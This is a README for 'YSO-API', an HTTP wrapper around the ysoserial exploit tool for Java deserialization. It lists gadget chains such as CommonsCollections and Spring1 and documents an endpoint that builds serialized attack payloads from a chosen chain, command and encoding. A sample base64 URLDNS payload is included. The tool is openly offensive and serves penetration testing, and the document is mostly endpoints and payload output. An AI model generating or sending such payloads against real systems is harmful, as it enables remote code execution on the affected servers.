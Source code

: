 # YSO-API
### API for ysoserial-all.jar

---

# ysoserial-all.jar
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

 

# Install & Launch
```
git clone https://github.com/NinjaGPT/yso-api/
pip install -r requirements.txt
python3 yso-api.py
```
default service port is 22222

 

# Usage

## Gain Gadget Chains Supported
```
Path:    http://yso-api-server:22222/yso/chains
Mothod:  GET
Params:  N/A
```
#### Response sample
```
{"gadget_chains":["AspectJWeaver","BeanShell1","C3P0","Click1","Clojure","CommonsBeanutils1",
  "CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4",
  "CommonsCollections5","CommonsCollections6","CommonsCollections7","FileUpload1","Groovy1",
  "Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1",
  "JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","MozillaRhino2","Myfaces1",
  "Myfaces2","ROME","Spring1","Spring2","URLDNS","Vaadin1","Wicket1"]}
```

## Gain Dependencies Of Specific Gadget Chains
```
Path:    http://yso-api-server:22222/yso/deps
Method:  GET
Params:  chain=[chain_name]
```

#### Request sample:
```
http://yso-api-server:22222/yso/deps?chain=Spring1
```

#### Response sample
```
{"Spring1":"spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE"}
```

## Gain dependencies of specific gadget chains
```
Path:    http://localhost:22222/yso/payload
Method:  GET
Params:  chain=[chain_name],  cmd=[command_or_url],  encode=[encoder]

base64 and xxd encoders are supported by default, you can add more what you want.
```
#### Request sample:
```
http://localhost:22222/yso/payload?chain=URLDNS&cmd=http://google.com/&encode=base64
```
#### Response sample:
```
{"payload":"rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmV
zaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAA
Rwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIc
HJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QACmdvb2dsZS5jb210AAEvcQB+AAV0AARodHRwcHh0
ABJodHRwOi8vZ29vZ2xlLmNvbS94"}
```
---
## Screenshot
<img width="1019" alt="image" src="https://github.com/user-attachments/assets/72207db7-9e7a-4c43-9865-e7fe9ef83f35">

